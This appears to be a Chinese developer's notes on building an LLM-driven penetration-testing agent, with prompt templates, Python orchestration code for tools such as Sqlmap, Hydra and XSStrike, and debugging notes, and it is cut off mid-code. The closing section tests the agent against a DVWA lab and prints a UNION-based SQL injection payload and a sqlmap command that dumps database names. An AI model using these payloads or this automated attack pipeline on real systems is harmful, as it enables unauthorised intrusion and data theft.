你是一名 Web 安全扫描助理，精通使用 NMAP、W3AF、CMSeek、Dirsearch、Hydra、Sqlmap、tplmap 和 XSStrike 等工具。你还具备渗透测试知识和分析技能。
你的任务是确定某个步骤是否可以使用上述能力完成。步骤将以 [用户输入]xxxxx[用户输入结束] 的格式提供，你需要以 [结果]xxx 的格式提供你的判断。如果该步骤无法完全完成或涉及手动流程，则输出“manu”。如果该步骤可以使用上述渗透测试工具完成，则输出“auto”。如果该步骤可以使用你的分析技能完成，则输出“anal”。
你的首要要求是避免输出任何额外内容 - 仅输出“manu”、“auto”或“anal”。以下是示例：

[用户输入]
使用 Nmap 确定 127.0.0.1 上是否存在 SQL 注入漏洞。
[用户输入结束]
[结果]
auto

如果需要人工干预，示例如下：
[用户输入]
确认Nmap扫描的目标IP和端口范围。
[用户输入结束]
[结果]
manu

[用户输入]
查看XSStrike报告中提到的漏洞位置和详细信息。
[用户输入结束]
[结果]
anal

严格按照上述说明，只输出“manu”、“auto”或“anal”，不要输出除这三个词以外的任何内容。提供结果后立即停止输出。以下是实际应用场景：

[用户输入]
{userinput}
[用户输入结束]

[结果]
```


param checker


**任务状态分析助理，负责根据任务的返回状态码和相关任务信息判断任务是否成功完成**
**如果任务失败，你需要解释失败的原因并提出可能的解决方案。**
```text
你是一名任务状态分析助理，负责根据任务的返回状态码和相关任务信息判断任务是否成功完成。如果任务失败，你需要解释失败的原因并提出可能的解决方案。请使用以下状态码和任务信息进行判断：

**状态码及对应信息：**

0：任务执行成功。

-1：创建函数时参数错误。

-2：创建函数时函数名错误。

-3：创建函数时格式错误。

-4：函数创建失败。

-10：函数调用执行失败。

-11：函数执行过程中翻译失败。

-12：函数执行过程中摘要生成失败。

-20：查询检查失败。

-21：机器人状态检查失败。

-22：域不存在错误。

-23：能力检查失败。

**重要提示：**状态码为0仅表示任务执行成功，但不保证执行结果有效。如果根据任务信息判断任务失败或结果无效，则应返回“任务失败”而不是“任务成功”。

**输入格式：**
- **状态码**：表示任务返回状态的整数。
- **任务信息**：描述与任务相关详细信息的字符串。

**输出要求：**
- **任务成功**：如果状态码为0，则输出“任务成功完成”。
- **任务失败**：如果任务失败，请根据状态码和任务信息说明失败的具体原因，并提供可能的解决方案。

**示例：**
输入：

状态码：-1

任务信息：函数创建时参数格式不符合要求。

输出：

任务失败。原因：创建函数时参数错误。可能的解决方案：请检查输入参数的格式，确保提供了所有必要的参数。

以下是实际应用场景：
输入：

状态码：{code}
任务信息：{msg}
输出：
```
#### executor
很明显，执行agent
> 如果计划中某步骤可以利用工具解决，那么该agent执行
> 对plugin，retrieval，planner的集成调用


```python
from agent.base import Agent
from model.base import ChatModel
from config import config_manager
from retrieval import Retrieval, BgeReranker
from planner import NmapPlanner, CapChecker, ToolsPlanner
from plugin import plugin


class ExecutorAgent(Agent):

    def __init__(self, chat_model: ChatModel) -> None:
        self.chat_model = chat_model
        self.retrieval_model = self._read_retrieval_model()
        self.tools = ["Nmap", "CMSeek", "Dirsearch", "Hydra", "Sqlmap", "Tplmap", "XSStrike"]
        self.nmap_planner = NmapPlanner(chat_model=self.chat_model, skill_name="Nmap", reranker=self.retrieval_model)
        self.planner = ToolsPlanner(chat_model=self.chat_model)
        self.capability_checker = CapChecker(chat_model=self.chat_model)

    def _read_retrieval_model(self) -> Retrieval:
        reranker_name_or_path = config_manager.config["Retrieval"]["reranker_path"]
        retrieval_model = BgeReranker(embedding_name_or_path=reranker_name_or_path, use_fp16=True)
        return retrieval_model

    def _exec_nmap_tool(self, query: str) -> str:
        self._print_tool_message(f"🐎 Execute Nmap tool")
        _, plan = self.nmap_planner.create_plan(query)
        result = self.nmap_planner.execute_plan(plan)
        return result

    
    def _exec_tools(self, query: str, skill_name: str) -> str:
        self.planner.skill_name = skill_name
        self.planner.skill = plugin.read_skill(skill_name)
        self._print_tool_message(f"🐎 Execute {skill_name} tool")
        _, plan = self.planner.create_plan(query)
        result = self.planner.execute_plan(plan)
        return result

    def _exec_tool(self, query: str, capability_checker_result: int) -> str:
        result = ""
        if capability_checker_result == 1:
            result = self._exec_nmap_tool(query)
        else:
            result = self._exec_tools(query, self.tools[capability_checker_result - 1])
        # if result is "", raise error
        return result

    def _exec_capability_check(self, query: str) -> str:
        _, plan = self.capability_checker.create_plan(query)
        result = self.capability_checker.execute_plan(plan)
        return result

    def _print_tool_message(self, msg: str):
        print(f"\033[32m{msg}\033[0m")

    def process(self, query: str) -> str:
        capability_checker_result = self._exec_capability_check(query)
        if capability_checker_result == 0:
            return "According to the user's request, no suitable tool was found to complete the task"

        exec_result = self._exec_tool(query, capability_checker_result)

        return exec_result

```


#### refiner
显而易见，根据任务执行流结果，进一步制定更好的计划
```python
class RefinerAgent(Agent):

    def __init__(self, chat_model: ChatModel) -> None:
        self.prompt_template = PROMPT
        self.chat_model = chat_model

    def process(self, query: List[str]) -> str:
        plan, result = query
        if "XSStrike" in result:
            prompt = PROMPT_FOR_XSSTRIKE.format(plan=plan, result=result)
        else:
            prompt = PROMPT.format(plan=plan, result=result)
        response =  self.chat_model.chat(prompt)
        # Remove redundant information 去冗余
        if "[new plan]" in response:
            response =  response.split("[new plan]")[1]
        if "[plan end]" in response:
            response =  response.split("[plan end]")[0]
        if "[new plan end]" in response:
            response =  response.split("[new plan end]")[0]
        logger.info(f"refiner output - {response.strip()}")
        return response.strip()
```

有两个prompt，对于xsstrike特意分了一个prompt出来
下面是通用prompt

**你的任务是根据当前步骤和[result]的内容，评估[当前步骤]是否完成，**
**如果步骤完成，或者[result]表示无法完成，则需要生成或改进下一步。**

```text
你是一个Web安全扫描助手，用户会为你提供一个计划[plan]和当前步骤的结果[result]，[result]的内容可以是当前步骤的执行结果，也可以是用户提供的附加信息。

计划中可能包含粗略或详细的步骤，完成的步骤会被标记。你的任务是根据当前步骤和[result]的内容，评估[当前步骤]是否完成，如果步骤完成，或者[result]表示无法完成，则需要生成或改进下一步。

如果当前步骤不完成，则需要根据[result]的内容对当前步骤进行细化和修改，使其尽可能完整，并将其标记为[当前步骤]。

如果需要使用NMAP、CMSeek、Dirsearch、Hydra、Sqlmap、tplmap或XSStrike等工具，请在步骤中指定工具名称、目标IP和端口。

如果某个步骤完成，则将其标记为[完成]。确保下一步要完成的操作标记为[当前步骤]。每个[当前步骤]必须包含目标地址，每个步骤必须以任务号开头，每个步骤应以一行描述，不要输出多行。

示例如下：

[计划]

1.准备阶段：首先，确保您已获取目标Web服务的所有相关URL。对于需要身份验证的部分，准备相应的凭据。[当前步骤]

2.检测阶段：使用W3AF进行SQL注入检测。配置W3AF使用其SQL注入插件，并设置相应的目标URL和参数。启动扫描并等待扫描完成。

[计划结束]

[结果]
我的服务托管在xxx.x.x.x:xxxx，系统帐户为xxx，密码为yyy。

[结果结束]

[新计划]

1.准备阶段：首先，确保您已获取目标Web服务的所有相关URL。对于需要身份验证的部分，准备相应的凭据。 [完成]
2. 检测阶段：使用W3AF进行SQL注入检测，配置W3AF使用其SQL注入插件，并设置相应的目标URL和参数，启动扫描并等待扫描完成。
2.1 ......................[当前步骤]
2.2 ......................
2.3 ......................
[新计划结束]

[计划]
{计划}
[计划结束]

[结果]
{结果}
[结果结束]

[新计划]
```
然后大差不差，下面是xsstrike的prompt

```text
你是一个Web安全扫描助手，用户会为你提供一个计划[plan]和当前步骤的结果[result]，[result]的内容可以是当前步骤的执行结果，也可以是用户提供的附加信息。

计划中可能包含粗略或详细的步骤，完成的步骤会被标记。你的任务是根据当前步骤和[result]的内容，评估[当前步骤]是否完成，如果步骤完成，或者[result]表示无法完成，则需要生成或改进下一步。

如果当前步骤不完成，则需要根据[result]的内容对当前步骤进行细化和修改，使其尽可能完整，并将其标记为[当前步骤]。

如果需要使用NMAP、CMSeek、Dirsearch、Hydra、Sqlmap、tplmap或XSStrike等工具，请在步骤中指定工具名称、目标IP和端口。

如果某个步骤完成，则将其标记为[完成]。确保下一步要完成的操作标记为[当前步骤]。每个[当前步骤]必须包含目标地址，每个步骤必须以任务号开头，每个步骤应以一行描述，不要输出多行。

示例如下：

[计划]

1.准备阶段：首先，确保您已获取目标Web服务的所有相关URL。对于需要身份验证的部分，准备相应的凭据。[当前步骤]

2.检测阶段：使用W3AF进行SQL注入检测。配置W3AF使用其SQL注入插件，并设置相应的目标URL和参数。启动扫描并等待扫描完成。

[计划结束]

[结果]
我的服务托管在xxx.x.x.x:xxxx，系统帐户为xxx，密码为yyy。

[结果结束]

[新计划]

1.准备阶段：首先，确保您已获取目标Web服务的所有相关URL。对于需要身份验证的部分，准备相应的凭据。 [完成]
2. 检测阶段：使用W3AF进行SQL注入检测，配置W3AF使用其SQL注入插件，并设置相应的目标URL和参数，启动扫描并等待扫描完成。
2.1 ......................[当前步骤]
2.2 ......................
2.3 ......................
[新计划结束]

下面再举一个例子：

[计划]
1. 准备阶段：使用NMAP扫描10.12.189.7:11452上的端口和服务，确保目标端口开放，并识别其服务类型。 [完成]
2. 检测阶段：使用XSStrike对10.12.189.7:11452进行XSS漏洞检测。 [当前步骤]
[计划结束]

[结果]
XSStrike v3.1.5

[!!] 无法连接到目标。
[!!] 无法连接到目标。
[~] 检查 DOM 漏洞
[-] 没有要测试的参数。
[结果结束]

[新计划]
1. 准备阶段：首先，确保您已获取目标 Web 服务的所有相关 URL。对于需要身份验证的部分，请准备相应的凭据。[完成]
2. 检测阶段：无法连接到目标。请替换目标或补充测试参数。[当前步骤]
[新计划结束]

以上是您的工作示例。以下是实际应用场景：

[计划]
{计划}
[计划结束]

[结果]
{结果}
[结果结束]

[新计划]
```

### main
至此，各部分组件功能已经基本清晰，下面来看是如何综合使用agent的
```python

class PentestAssistant:

    def __init__(self, chat_model: ChatModel):
        self.chat_model = chat_model
        self.max_repeat_time = 3

        self._init_bot()

    def _init_bot(self):

        # init agent
        # 做计划，进一步完善计划，验证计划可执行行，执行计划（可自动调用工具），分析结果
        self.planner_agent = PlannerAgent(chat_model=self.chat_model)
        self.refiner_agent = RefinerAgent(chat_model=self.chat_model)
        self.param_checker_agent = ParamCheckerAgent(chat_model=self.chat_model)
        self.plan_checker_agent = PlanCheckerAgent(chat_model=self.chat_model)
        self.executor_agent = ExecutorAgent(chat_model=self.chat_model)
        self.analyst_agent = AnalystAgent(chat_model=self.chat_model)

        # init status
        self.user_query = ""
        
        self.last_result = ""#根据上一次结果进一步完善计划，若结果为“”，表明刚开始
        self.plan = ""
        self.current_subplan = ""

        self.step_count = 0
        self.previous_step = 0

    def _reset_status(self):
        self.plan = ""
        self.current_subplan = ""
        self.last_result = ""
        self.user_query = ""
        self.step_count = 0
        
        self.previous_step = 0

    def process(self, query: str) -> None:
        while True:
            self.user_query = query
            # close current task
            if self.last_result == "quit":
                self._reset_status()
                self._print_bot_message("🐞 The robot status has been initialized. Please enter the task request. To exit the robot, please enter 'quit':")
                logger.info(f"🐞 The robot status has been initialized. Please enter the task request. To exit the robot, please enter 'quit':")
                break

            # just open new task and generate plan list
            if len(self.last_result) == 0:
                # 刚开始 计划agent初步进行计划
                self.plan = self.planner_agent.process(self.user_query)
                self._print_bot_message(f"📃 Total Task List:\n{self.plan}")
                logger.info(f"📃 Total Task List:\n{self.plan}")
            else:
                # 否则 refiner改进计划
                # update plan list according last subplan result
                self.plan = self.refiner_agent.process([self.plan, self.last_result])
                self._print_bot_message(f"📃 Total Task List:\n{self.plan}")
                logger.info(f"📃 Total Task List:\n{self.plan}")

            # judge task cycle number
            self.current_subplan = self._get_current_subplan(self.plan)
            current_step = self._extract_step(self.current_subplan)
            if current_step is None:
                self._print_bot_message(f"🐞 Unable to resolve task label:{self.current_subplan} \n casue current_step is none")
                logger.info(f"🐞 Unable to resolve task label:{self.current_subplan}\n casue current_step is none")
                break
            if current_step == self.previous_step:
                self.step_count += 1
            else:
                self.step_count = 1  # When encountering a different label, reset the count
                self.previous_step = current_step  # Update the last label
            if self.step_count >= self.max_repeat_time:
                self.last_result = "This step has failed and cannot be completed. Please generate a new task or skip to the next step."
                continue

            self._print_bot_message(f"✨ Current Tasks:\n{self.current_subplan}")
            logger.info(f"✨ Current Tasks:\n{self.current_subplan}")


            # 验证计划可行性
            plan_pattern = self.plan_checker_agent.process(self.current_subplan)
            if plan_pattern == "auto":
                self.last_result = self.executor_agent.process(self.current_subplan)
                self._print_bot_message(f"🔧 Tool execution results:\n{self.last_result}")
                logger.info(f"🔧 Tool execution results:\n{self.last_result}")
            elif plan_pattern == "anal":
                self.last_result = self.analyst_agent.process([self.current_subplan, self.last_result])
                self._print_bot_message(f"🔧 Task analysis results:\n{self.last_result}")
                logger.info(f"🔧 Task analysis results:\n{self.last_result}")
            else:
                self._print_bot_message(f"🌈 Please enter the result of the current step (enter 'quit' to exit):")
                logger.info(f"🌈 Please enter the result of the current step (enter 'quit' to exit):")
                self.last_result = input()

        return

    def _extract_step(self, output_string):
        # Use regular expressions to extract the sign (assuming the sign is a number followed by a period, like "2.")
        match = re.match(r"\s*(\d+(\.\d+)?)[\.\s]", output_string)
        if match:
            return match.group(1)  # Returns the matching label part
        return None

    def _get_current_subplan(self, plan: str):
        """ Get the current subtask """
        insts = plan.split('\n')
        instNow = ''
        for self.current_subplan in insts:
            if '[current step]' in self.current_subplan:
                instNow = self.current_subplan
                break
        instNow.replace("current step", "")
        return instNow

    def _remove_ansi_escape_sequences(self, text):
        ansi_escape = re.compile(r'\x1B[@-_][0-?]*[ -/]*[@-~]')
        return ansi_escape.sub('', text)

    def _extract_first_level_title(task_label: str) -> int:
        # Split the task number with "." and take the first part, converting it to int type
        first_level_title = int(task_label.split('.')[0])
        return first_level_title

    def _extract_plan(self, output):
        if "[plan]" in output and "[plan end]" in output:
            # When [plan] and [plan end] exist, extract the middle part
            parts = output.split("[plan]")[1].split("[plan end]")[0].strip()
            return parts
        elif "[plan end]" in output:
            # When there is only [plan end], extract from the beginning to [plan end]
            parts = output.split("[plan end]")[0].strip()
            return parts
        else:
            # If there is no [plan] or [plan end], return the original content directly
            return output.strip()

    def _print_bot_message(self, msg: str):
        print(f"\033[31m{msg}\033[0m")


if __name__ == "__main__":
    chat_model = QwenChatModel()
    # chat_model = GPTChatModel()
    pa = PentestAssistant(chat_model=chat_model)
    query = input("Please enter the task request. To exit the robot, please enter 'quit':\n")
    while True:
        if query == "quit":
            break
        
        pa.process(query)
        query = input()

```


## 遇到bug

以下bug都是由于 copy的是main分支， 或者说是因为没开发完？导致的


1.首先是验证计划执行性agent的调用问题，





2.然后是capchecker没有做输出结果处理的问题





3.再次观察到ds输出的抽象性，总是不加标签

干脆更换提取方式，直接取最后一行


4.再次出错
错在工具调用问题

打印出response看看，
如下图



通过上图我们可以知道
1. ds压根就没有进行工具调用
2. 总是有一个\<\/think\>标签标志思考结束，然后才给出答案



ds的function calling目前很抽象。。
现在选择对话形式。
> 对话形式太难搞了
>


之后考虑qwen等，qwq也没有function calling。。
如下图为 qwen-plus的fucntion calling调用成功,



## 尝试扫描dvwa
尝试看能否attack 一个

可见调用很快，现在需要一个靶场测试

1. 首先手动测试

1' union select user,avatar from users #

可见成功获取 users 表中 user 及 avatar 信息。

2. 然后使用sqlmap测试
 sqlmap -u "http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=fcdgi8ogeuku3ggitk55t7uio1; security=low" --batch --dbs 

成功获取所有数据库名称

现在问题是，这玩意真的能自动获取cookie吗？
sqlmap -u "http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit#"  --batch --dbs
哦哦，原来不需要也能成

3. 最后使用模型测试
   
i have a dvwa target. please use sql injection to get all database name.
 the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit#

模型没理解url


the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit#
there is sql injectio. please use sql injection to get all database name.
 
 可能是prompt不太好。。

sqlmap the url is http://10.24.4.144:84/vulnerabilities/sqli/?id=1&Submit=Submit# just use sql injection with sqlmap to get all database name.
 
qwen-plus模型实在无法辨认出准确url，换个模型试试
换成qwq-plus进行尝试

qwq-plus不支持function calling
再换成qwen-max进行尝试


参数传递是有问题的，之前也是

```python
import shlex

# command = "sqlmap -u 'http://10.24.4.144:84'"
